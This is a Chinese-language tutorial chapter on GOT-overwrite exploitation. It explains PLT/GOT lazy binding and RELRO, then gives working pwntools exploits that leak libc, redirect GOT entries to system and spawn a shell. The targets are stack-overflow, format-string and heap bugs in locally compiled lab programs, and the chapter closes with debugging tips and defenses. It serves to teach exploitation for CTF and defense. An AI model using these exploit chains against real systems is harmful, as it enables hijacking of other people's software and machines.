


## 8. GOT覆写

GOT覆写（GOT Overwrite）是二进制漏洞利用中最经典的技术之一。其核心思想是：**修改GOT表中某个函数指针，使其指向攻击者控制的地址（如`system`），从而在程序后续调用该函数时，执行攻击者指定的代码**。GOT覆写之所以重要，是因为它不需要注入shellcode、不需要控制返回地址——只需一次任意地址写入，就能劫持程序的控制流。

### 8.1 动态链接基础：PLT与GOT的协作机制

#### 8.1.1 为什么需要PLT/GOT

现代操作系统中，共享库（如`libc.so`）在内存中的加载地址每次运行都不同（ASLR）。编译时无法知道`printf`、`puts`等外部函数的运行时地址。PLT/GOT机制就是为了解决这个问题：**让程序在运行时动态解析外部函数的真实地址，并缓存起来供后续调用使用**。

这被称为**延迟绑定**（Lazy Binding）——只有在第一次调用某个外部函数时才进行地址解析，而不是程序启动时就解析所有函数。这样做的好处是：对于大型程序可能链接了几百个共享库函数，但实际运行时可能只调用其中一小部分，延迟绑定可以显著加快启动速度。

#### 8.1.2 PLT（Procedure Linkage Table）结构

PLT是一段**跳转代码**，每个外部函数对应一个PLT条目（PLT Entry）。每个PLT条目的结构完全相同：

```asm
; PLT条目通用结构（以printf@plt为例）
.plt:
    jmp     *printf@GOT        ; 间接跳转：读取GOT中存储的地址并跳转
    push    printf_reloc_index  ; 将重定位索引压栈（供动态链接器使用）
    jmp     PLT[0]             ; 跳转到PLT[0]（公共入口）
```

每个PLT条目只有三条指令：第一条是间接跳转（读GOT），后两条是"桩代码"——如果GOT中还没解析过，就跳到动态链接器去解析。

#### 8.1.3 GOT（Global Offset Table）结构

GOT是一个**指针数组**，存储外部函数的实际内存地址。在x86_64上，每个条目占8字节：

```text
GOT表布局（Partial RELRO下）：
┌─────────────────────────────────┐
│ GOT[0]: .dynamic段地址          │  ← 动态链接器需要的元数据
├─────────────────────────────────┤
│ GOT[1]: link_map指针            │  ← 动态链接器内部使用
├─────────────────────────────────┤
│ GOT[2]: _dl_runtime_resolve     │  ← 动态链接器的解析函数入口
├─────────────────────────────────┤
│ GOT[3]: printf的实际地址         │  ← printf@GOT，攻击目标
├─────────────────────────────────┤
│ GOT[4]: puts的实际地址           │  ← puts@GOT，攻击目标
├─────────────────────────────────┤
│ GOT[5]: read的实际地址           │  ← read@GOT，攻击目标
├─────────────────────────────────┤
│ ...                              │
└─────────────────────────────────┘
```

前三项（GOT[0]、GOT[1]、GOT[2]）是保留给动态链接器的，从GOT[3]开始才是用户可覆写的函数指针。

#### 8.1.4 延迟绑定的完整流程

用一个完整的序列图来说明程序第一次调用`printf`时发生了什么：



关键要点：

- **第一次调用**：GOT中存的是PLT桩代码的地址 → 触发动态链接器 → 解析真实地址 → 写入GOT → 执行函数
- **第二次调用**：GOT中已经是真实地址 → 直接跳转，不再经过链接器
- **GOT覆写的时机**：第一次调用之后、GOT中已经存了真实地址，此时如果能修改GOT中的值，后续调用就会跳转到攻击者指定的地址

#### 8.1.5 用GDB验证PLT/GOT机制

通过实际调试来加深理解：

```bash
# 编译一个简单程序
cat > test.c << 'EOF'
#include <stdio.h>
void vuln() {
    char buf[64];
    gets(buf);  // 栈溢出漏洞
}
int main() {
    printf("Hello\n");  // 触发printf的GOT解析
    vuln();
    puts("Done");       // 触发puts的GOT解析
    return 0;
}
EOF
gcc -g -fno-stack-protector -no-pie -z execstack -z norelro -o test test.c

# 查看PLT表
objdump -d -j .plt test

# 查看GOT表
readelf -r test | grep -E "printf|puts"

# 用GDB调试
gdb -q ./test
(gdb) b main
(gdb) r
(gdb) x/i 0x401030          # 查看printf@plt
(gdb) x/gx 0x404018         # 查看printf@GOT（执行printf之前）
# 输出: 0x404018: 0x0000000000401036  ← 指向PLT桩代码
(gdb) b main
(gdb) c
(gdb) x/gx 0x404018         # printf执行之后再看
# 输出: 0x404018: 0x00007ffff7a5e800  ← libc中printf的真实地址
```

### 8.2 RELRO保护机制与GOT可写性

GOT覆写的前提是**GOT表可写**。RELRO（RELocation Read-Only）保护机制直接决定了这一点。

#### 8.2.1 三种RELRO级别

| 保护级别 | 编译选项 | GOT可写性 | 启动速度 | 安全性 |
|---------|---------|----------|---------|-------|
| No RELRO | 无 | 完全可写 | 最快 | 最低 |
| Partial RELRO | `-z relro` | 可写（但`.got.plt`之前的段只读） | 快 | 中等 |
| Full RELRO | `-z relro -z now` | 完全只读 | 较慢（所有符号启动时解析） | 最高 |

```bash
# 检查二进制文件的RELRO状态
checksec --file=./vuln
# 或
readelf -l ./vuln | grep GNU_RELRO
readelf -d ./vuln | grep BIND_NOW

# 编译时设置RELRO级别
gcc -z norelro -o no_relro test.c     # 无RELRO
gcc -z relro -o partial test.c        # Partial RELRO
gcc -z relro -z now -o full test.c    # Full RELRO
```

#### 8.2.2 Partial RELRO的工作原理

Partial RELRO（`-z relro`）将`.got`段（非PLT使用的GOT部分）标记为只读，但`.got.plt`段（PLT使用的GOT条目）仍然可写。这意味着：

- `.got`中的全局变量指针 → 只读，不可覆写
- `.got.plt`中的函数指针 → **可写，可以覆写**

这就是为什么在Partial RELRO下GOT覆写仍然可行——PLT使用的GOT条目是可写的。

#### 8.2.3 Full RELRO的防御原理

Full RELRO（`-z relro -z now`）在程序启动时就调用`ld.so`解析所有外部函数的地址，并将整个GOT段标记为只读。这意味着：

- 启动时：所有GOT条目被填充为真实地址
- 启动后：GOT段变为只读，任何写入尝试都会触发段错误

```bash
# Full RELRO下的GOT表状态
readelf -l ./full_relro_binary | grep GNU_RELRO
# GNU_RELRO段覆盖了整个.got.plt

readelf -d ./full_relro_binary | grep BIND_NOW
# BIND_NOW标志：立即解析所有符号
```

#### 8.2.4 GOT覆写的适用条件总结

```text
GOT覆写可行性检查：
┌─────────────────────────────┐
│ 1. 目标函数在GOT中有条目？    │  是 → 继续
│ 2. RELRO不是Full？           │  是 → 继续
│ 3. 有任意写入原语？           │  是 → GOT覆写可行！
└─────────────────────────────┘

任意写入原语包括：
- 格式化字符串漏洞（%n写入）
- 堆溢出/Use-After-Free
- 栈溢出（通过ROP链写入）
- 任意地址写入漏洞
```

### 8.3 GOT覆写攻击方法论

#### 8.3.1 攻击流程

GOT覆写攻击分为四个阶段：



**阶段1：信息收集**

```bash
# 1. 检查保护机制
checksec --file=./vuln
# 关注：RELRO、PIE、ASLR状态

# 2. 查看GOT表中的函数
readelf -r ./vuln | grep R_X86_64_GLOB_DAT
readelf -r ./vuln | grep R_X86_64_JUMP_SLOT

# 3. 查看PLT表
objdump -d -j .plt ./vuln | head -50

# 4. 确定哪些函数会被调用（GOT中已有值的）
objdump -R ./vuln | grep JUMP_SLOT
```

**阶段2：泄露libc地址**

在ASLR开启的情况下，需要先泄露libc的基址。常用方法：

```python
from pwn import *

elf = ELF('./vuln')

# 方法1：通过puts泄露GOT值
def leak_libc_via_puts(p):
    rop = ROP(elf)
    pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
    
    # puts(puts@GOT) → 打印puts的真实地址
    payload = b'A' * 72
    payload += p64(pop_rdi)
    payload += p64(elf.got['puts'])
    payload += p64(elf.plt['puts'])
    payload += p64(elf.symbols['main'])  # 返回main继续利用
    
    p.sendline(payload)
    puts_leak = u64(p.recvline().strip().ljust(8, b'\x00'))
    return puts_leak

# 方法2：通过格式化字符串泄露
def leak_libc_via_fmt(p, offset):
    # 直接读取GOT表中的值
    p.sendline(f'%{offset}$s'.encode())
    leak = u64(p.recv(6).ljust(8, b'\x00'))
    return leak
```

**阶段3：计算目标地址**

```python
from pwn import *

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')  # 本地libc
# 或从 https://libc.blukat.me/ 下载匹配的libc

# 已知puts的真实地址，计算libc基址
puts_real = leak_libc_via_puts(p)
libc_base = puts_real - libc.symbols['puts']

# 计算system的地址
system_addr = libc_base + libc.symbols['system']

print(f"libc base: {hex(libc_base)}")
print(f"system: {hex(system_addr)}")
```

**阶段4：覆写GOT**

根据漏洞类型选择不同的写入方式，详见下一节的完整示例。

#### 8.3.2 选择覆写目标函数的原则

不是所有函数都适合做GOT覆写的目标。选择标准：

| 考虑因素 | 推荐 | 不推荐 |
|---------|------|--------|
| 调用频率 | 只在特定路径调用一次的函数 | 循环中反复调用的函数 |
| 参数控制 | 参数可以由用户控制 | 参数固定不可控 |
| 调用时机 | 在漏洞触发之后被调用 | 在漏洞触发之前就被调用 |
| GOT可写性 | 确认GOT条目可写 | 被RELRO保护的条目 |

常用覆写目标及利用方式：

```c
原始函数          → 替换为      → 利用方式
─────────────────────────────────────────────
printf@GOT       → system      → printf("/bin/sh") → system("/bin/sh")
puts@GOT         → system      → puts("/bin/sh") → system("/bin/sh")
strlen@GOT       → system      → strlen("/bin/sh") → system("/bin/sh")
free@GOT         → system      → free(ptr) → 需ptr指向"/bin/sh"
exit@GOT         → main        → exit() → main()，实现循环利用
```

### 8.4 完整GOT覆写Exploit示例

#### 8.4.1 示例一：通过栈溢出覆写GOT（ret2GOT）

这是最基本的GOT覆写场景：程序有栈溢出漏洞，且可以调用`puts`或`printf`泄露GOT值。

```c
// vuln.c - 目标程序
#include <stdio.h>
#include <stdlib.h>

void vuln() {
    char buf[64];
    printf("Input: ");
    gets(buf);  // 栈溢出漏洞
}

int main() {
    vuln();
    printf("Goodbye!\n");
    return 0;
}
// 编译：gcc -g -fno-stack-protector -no-pie -z norelro -o vuln vuln.c
```

```python
# exploit_ret2got.py
from pwn import *

# 配置
elf = ELF('./vuln')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.binary = elf

# 阶段1：泄露libc地址
p = process('./vuln')
rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]

payload = b'A' * 72                    # 填充到返回地址
payload += p64(pop_rdi)                # pop rdi; ret
payload += p64(elf.got['printf'])      # rdi = printf@GOT
payload += p64(elf.plt['puts'])        # 调用puts打印printf@GOT的值
payload += p64(elf.symbols['main'])    # 返回main再次利用

p.recvuntil(b'Input: ')
p.sendline(payload)

# 接收泄露的地址
p.recvline()  # 换行符
printf_leak = u64(p.recvline().strip().ljust(8, b'\x00'))
log.success(f"printf leaked: {hex(printf_leak)}")

# 计算libc基址
libc_base = printf_leak - libc.symbols['printf']
system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))
exit_addr = libc_base + libc.symbols['exit']

log.success(f"libc base: {hex(libc_base)}")
log.success(f"system: {hex(system_addr)}")

# 阶段2：覆写printf@GOT为system，然后调用printf("/bin/sh")
p.recvuntil(b'Input: ')

# 方法A：通过ROP直接调用system("/bin/sh")
payload2 = b'A' * 72
payload2 += p64(pop_rdi)
payload2 += p64(bin_sh_addr)
payload2 += p64(system_addr)

# 方法B：覆写printf@GOT，然后程序正常调用printf时会执行system
# 这需要一个任意写原语（如格式化字符串），这里用方法A更直接

p.sendline(payload2)
p.interactive()
```

#### 8.4.2 示例二：通过格式化字符串覆写GOT

格式化字符串漏洞是GOT覆写最常见的载体——`%n`可以向任意地址写入值。

```c
// fmt_got.c - 有格式化字符串漏洞的程序
#include <stdio.h>
#include <stdlib.h>

int main() {
    char buf[128];
    while (1) {
        printf("Input: ");
        fgets(buf, sizeof(buf), stdin);
        printf(buf);  // 格式化字符串漏洞
        printf("\n");
    }
    return 0;
}
// 编译：gcc -g -fno-stack-protector -no-pie -z norelro -o fmt_got fmt_got.c
```

```python
# exploit_fmt_got.py
from pwn import *

elf = ELF('./fmt_got')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.binary = elf

p = process('./fmt_got')

# 步骤1：确定输入在栈上的偏移
p.sendline(b'AAAA%p.%p.%p.%p.%p.%p.%p.%p.%p.%p')
p.recvuntil(b'Input: ')
resp = p.recvline()
print(f"泄露: {resp}")
# 找到0x41414141出现的位置，确定偏移

# 步骤2：泄露printf@GOT的真实地址（libc中的地址）
# 使用%s读取GOT表中存储的指针
printf_got = elf.got['printf']
# 偏移需要实际调试确定，假设偏移为6
offset = 6

p.recvuntil(b'Input: ')
p.sendline(f'%{offset}$s'.encode() + b'AAA' + p64(printf_got))
p.recvuntil(b'Input: ')
printf_leak = u64(p.recv(6).ljust(8, b'\x00'))
log.success(f"printf leaked: {hex(printf_leak)}")

# 步骤3：计算system地址
libc_base = printf_leak - libc.symbols['printf']
system_addr = libc_base + libc.symbols['system']
log.success(f"system: {hex(system_addr)}")

# 步骤4：使用fmtstr_payload覆写printf@GOT为system
p.recvuntil(b'Input: ')
payload = fmtstr_payload(offset, {printf_got: system_addr})
p.sendline(payload)

# 步骤5：下次调用printf时，实际执行system
# 输入"/bin/sh"，printf("/bin/sh") → system("/bin/sh")
p.recvuntil(b'Input: ')
p.sendline(b'/bin/sh')

p.interactive()
```

#### 8.4.3 示例三：覆写free@GOT实现堆利用

在堆漏洞场景中，覆写`free@GOT`为`system`，然后`free(ptr)`就会执行`system(ptr的内容)`：

```python
# 场景：程序有Use-After-Free漏洞
# 步骤：分配一个内容为"/bin/sh"的chunk → 覆写free@GOT为system → 触发free
from pwn import *

p = process('./heap_vuln')
elf = ELF('./heap_vuln')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# 1. 分配一个chunk，内容为"/bin/sh"
p.sendline(b'1')           # 创建chunk
p.sendline(b'0')           # index 0
p.sendline(b'64')          # size
p.sendline(b'/bin/sh')     # 内容

# 2. 通过UAF或其他漏洞泄露libc地址
# ... 省略泄露代码 ...

# 3. 覆写free@GOT为system
free_got = elf.got['free']
system_addr = libc_base + libc.symbols['system']
# 使用任意写原语覆写（这里假设有一个edit功能）
p.sendline(b'3')           # edit chunk
p.sendline(b'0')           # index 0
p.sendline(p64(system_addr))  # 覆写free@GOT

# 4. 触发free → 实际执行system("/bin/sh")
p.sendline(b'2')           # free chunk
p.sendline(b'0')           # index 0
p.interactive()
```

#### 8.4.4 示例四：GOT覆写实现循环利用

有时我们需要多次利用漏洞，可以把某个函数的GOT覆写为`main`或漏洞函数本身，实现循环：

```python
# 思路：exit@GOT → main，这样exit()时会重新进入main
exit_got = elf.got['exit']
main_addr = elf.symbols['main']

# 第一次利用：泄露libc地址 + 覆写exit@GOT为main
# 程序退出时重新进入main
# 第二次利用：此时已知libc地址，直接执行system("/bin/sh")
```

### 8.5 PIE开启时的GOT覆写

PIE（Position Independent Executable）开启时，程序本身的基址也是随机的，GOT表的地址不再是固定的。此时需要额外步骤：

#### 8.5.1 PIE下的地址布局

```text
无PIE时：
  程序代码地址固定，如 0x401000
  GOT地址固定，如 0x404018
  → 可以直接硬编码GOT地址

有PIE时：
  程序基址随机，如 0x555555400000（低12位固定为0x000）
  GOT地址 = 基址 + 固定偏移
  → 需要先泄露程序基址，才能算出GOT地址
```

#### 8.5.2 PIE下泄露程序基址

```python
# 方法1：泄露某个已知函数的地址，减去其偏移
# 通过格式化字符串泄露返回地址或某个.text段的地址
p.sendline(b'%7$p')  # 假设栈上有一个.text段的地址
code_leak = int(p.recvline(), 16)
code_base = code_leak - known_offset  # known_offset通过静态分析得到

# 方法2：部分覆写（Partial Overwrite）
# 只覆写GOT条目的低2字节（因为低12位固定，低字节可爆破）
# 例如将printf@GOT从libc地址覆写为system地址
# 如果只差低2字节，可以爆破1/16的概率

# 得到程序基址后计算GOT地址
elf.address = code_base
printf_got = elf.got['printf']
```

#### 8.5.3 PIE + Partial RELRO的组合攻击

```python
# 完整流程：PIE开启 + Partial RELRO
from pwn import *

elf = ELF('./pie_vuln')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

for attempt in range(16):  # 最多爆破16次（低12位固定，高4位随机）
    try:
        p = process('./pie_vuln')
        
        # 阶段1：泄露程序基址（通过栈溢出+返回到puts打印某个地址）
        # ... 省略具体代码 ...
        
        # 阶段2：泄露libc地址
        # ... 省略具体代码 ...
        
        # 阶段3：覆写GOT
        # ... 省略具体代码 ...
        
        p.interactive()
        break
    except:
        p.close()
        continue
```

### 8.6 高级GOT覆写技术

#### 8.6.1 GOT表部分覆写（Partial Overwrite）

不覆写整个8字节，只覆写低2字节或低3字节。利用场景：

- **绕过ASLR**：如果目标地址与当前值只差低12位（页内偏移），可以只覆写低2字节
- **地址空间约束**：写入数据中不能包含null字节，只写低字节更容易满足

```python
# 只覆写低2字节
# 假设printf@GOT当前值是 0x7ffff7a5e800
# system地址是           0x7ffff7a4e170
# 两者只差低3字节（但低12位不同）

# 使用fmtstr_payload的write_size参数
payload = fmtstr_payload(offset, {printf_got: system_addr}, write_size='short')
# write_size='short'：每次写2字节（%hn）
# write_size='byte'：每次写1字节（%hhn）
```

#### 8.6.2 覆写__malloc_hook / __free_hook

除了GOT表，libc中还有一些hook函数指针，可以被覆写：

```python
# __malloc_hook：调用malloc时自动执行
# __free_hook：调用free时自动执行
# 这些地址在libc中，不受RELRO保护（因为不是GOT）

malloc_hook = libc_base + libc.symbols['__malloc_hook']
one_gadget = libc_base + 0x4f3d5  # one_gadget偏移

# 覆写__malloc_hook为one_gadget
# 触发malloc时自动获取shell
```

#### 8.6.3 FSOP（File Stream Oriented Programming）

通过覆写`_IO_list_all`等libc中的全局指针，利用文件流操作实现控制流劫持。这与GOT覆写的思路类似——都是修改某个全局函数指针，但目标从GOT表扩展到了libc内部数据结构。

### 8.7 常见错误与排查

#### 8.7.1 错误清单

| 错误现象 | 可能原因 | 解决方法 |
|---------|---------|---------|
| 覆写后段错误 | 目标地址不可写（Full RELRO） | `checksec`确认RELRO状态 |
| 泄露的地址以`\x00`截断 | `puts`遇到空字节停止 | 换用`write`或`send`系列函数 |
| system地址不对 | libc版本不匹配 | `ldd ./vuln`确认libc路径，或从服务器下载 |
| payload太长 | 栈空间不足 | 精简ROP链，或分阶段发送 |
| 偏移计算错误 | 输入在栈上的位置判断错误 | GDB调试确认实际偏移 |
| PIE下GOT地址错误 | 未正确设置`elf.address` | 先泄露基址再计算 |

#### 8.7.2 调试技巧

```bash
# 1. 确认GOT条目是否已解析
gdb -q ./vuln
(gdb) b main
(gdb) r
(gdb) x/gx 0x404018    # 查看printf@GOT
# 如果是0x0000000000401036之类的低地址，说明还未解析（PLT桩代码地址）
# 如果是0x00007ffff7xxxxxx，说明已解析（libc地址）

# 2. 确认GOT条目是否可写
(gdb) info proc mappings
# 查看GOT所在内存区域的权限（应该有w权限）

# 3. 确认覆写是否成功
(gdb) x/gx printf@GOT   # 覆写前
# ... 执行exploit ...
(gdb) x/gx printf@GOT   # 覆写后，值应该变成system的地址

# 4. 使用pwntools的GDB附加
from pwn import *
p = process('./vuln')
gdb.attach(p, 'b *0x401150\nc')  # 在指定地址下断点
```

### 8.8 GOT覆写与其他技术的对比

| 技术 | 前提条件 | 优势 | 劣势 |
|------|---------|------|------|
| GOT覆写 | Partial RELRO + 任意写原语 | 一次写入永久劫持 | Full RELRO下不可用 |
| ret2libc | NX + libc地址泄露 | 不需要GOT可写 | 需要ROP链 |
| 栈溢出控制返回地址 | 栈可执行或有gadget | 直接控制流劫持 | 需要精确的偏移 |
| 堆利用 | 堆漏洞 | 可绕过更多保护 | 复杂度高 |
| 格式化字符串写 | 格式化字符串漏洞 | 精确写入任意地址 | 写入量受格式限制 |
| FSOP | libc中的文件流劫持 | 可绕过GOT保护 | 需要深入理解libc内部 |

### 8.9 防御与缓解

#### 8.9.1 开发者应采取的措施

```bash
# 编译时开启Full RELRO
gcc -z relro -z now -o program program.c

# 现代Linux发行版（如Ubuntu 22.04+）默认开启Full RELRO
# 但嵌入式系统和旧项目常常遗漏

# 验证
checksec --file=program
# 输出应包含 Full RELRO
```

#### 8.9.2 运行时防御

- **ASLR**：增加地址泄露的难度（但不能阻止GOT覆写本身）
- **SECCOMP**：限制可执行的系统调用（即使获取shell也无法执行危险操作）
- **CFI（Control Flow Integrity）**：验证间接跳转目标的合法性

#### 8.9.3 为什么GOT覆写在CTF中仍然常见

尽管Full RELRO可以完全阻止GOT覆写，但在CTF比赛中仍然频繁出现，原因：

1. **出题人故意留洞**：部分RELRO是有意设置的漏洞条件
2. **真实漏洞场景**：很多老旧的嵌入式软件、IoT固件默认不开启Full RELRO
3. **教学价值**：GOT覆写是理解动态链接机制的最佳切入点
4. **组合利用**：GOT覆写常常是更大攻击链中的一环

### 8.10 本节小结

GOT覆写的核心逻辑可以用一句话概括：**程序通过GOT表查找外部函数的地址，如果GOT表可写，攻击者就能把"查找目标"替换成自己想要的地址**。

关键知识点回顾：

- PLT是跳转桩代码，GOT是地址缓存表，两者协作实现延迟绑定
- Partial RELRO下`.got.plt`可写，GOT覆写可行；Full RELRO下完全不可写
- 攻击流程：泄露地址 → 计算偏移 → 覆写GOT → 触发函数调用
- 常见覆写目标：`printf@GOT`、`puts@GOT`、`free@GOT`、`exit@GOT`
- PIE开启时需要额外泄露程序基址才能计算GOT地址
- `fmtstr_payload`是格式化字符串+GOT覆写的瑞士军刀

***
